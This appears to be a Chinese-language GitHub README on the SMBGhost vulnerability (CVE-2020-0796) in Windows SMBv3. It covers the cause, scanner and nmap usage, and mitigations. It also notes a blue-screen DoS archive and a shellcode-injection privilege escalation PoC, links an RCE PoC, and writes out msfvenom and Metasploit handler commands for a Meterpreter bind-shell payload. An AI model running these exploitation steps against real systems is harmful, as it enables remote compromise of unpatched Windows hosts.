 # SMBGhost

## 原理

漏洞发生在srv2.sys中,由于SMB没有正确处理压缩的数据包,在解压数据包的时候使用客户端传过来的长度进行解压时,并没有检查长度是否合法.最终导致整数溢出。

SMB运行在TCP端口445上，它是一种被广泛利用的网络协议，支持文件共享、网络浏览、打印服务和网络进程间的通信。

## Usage

	python3 scanner.py <IP>

OR

	nmap --script CVE-2020-0796.nse <IP>


CVE-2020-0796-Blue screen.rar 为 SMBGhost Ddos win10蓝屏的python代码。

解压后需要
	
	pip install ntlm-auth
	
	pip -r install requirements-test.txt


## LPE

用 ```winver```命令查看windows版本号，经测试，打过 kb4551762 补丁后，2个poc仍然测试存在漏洞，poc是不准确的。

用 CVE-2020-0796-master.zip 测试，VS编译，卸载补丁包后，成功本地提权。

![](2.PNG)

原理为 直接shellcode注入，注入winlogon.exe进程

## RPE (20200602)

https://github.com/chompie1337/SMBGhost_RCE_PoC

制作payload:

	msfvenom -p windows/x64/meterpreter/bind_tcp lhost=192.168.255.153 lport=4444 -f py -o payload.py

msfconsole

use exploit/multi/handler

set payload windows/x64/meterpreter/bind_tcp

## 影响版本

影响到Windows 10的1903和1909版本，以及Windows Server的1903和1909版本。

![](1.jpg)


## 修复方式

1.[微软补丁](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-0796)


2.使用以下PowerShell命令禁用SMBv3服务的压缩（无需重新启动）

```
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters" DisableCompression -Type DWORD -Value 1 -Force
```

3.还可以通过禁止SMB的流量流向外网来防御攻击

## 参考资料

[360 核心安全技术团队的原理分析](http://blogs.360.cn/post/CVE-2020-0796.html)

[powershell 检测](https://mp.weixin.qq.com/s?__biz=MzI2OTMzNjg4OQ==&mid=2247485291&idx=1&sn=462ca6f249ead1be35609977e1b2fbe3&chksm=eae0af3ddd97262bbfa000221fd93d53aa931fca2a0cf8bbd6a56c25e66296dbb33c89a1a2dd&mpshare=1&scene=1&srcid=&sharer_sharetime=1584063318697&sharer_shareid=5a0049ad005b04d2683ee755107dbbd6#rd)


[微软smb协议文件](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-smb2/1d435f21-9a21-4f4c-828e-624a176cf2a0)

![](3.png)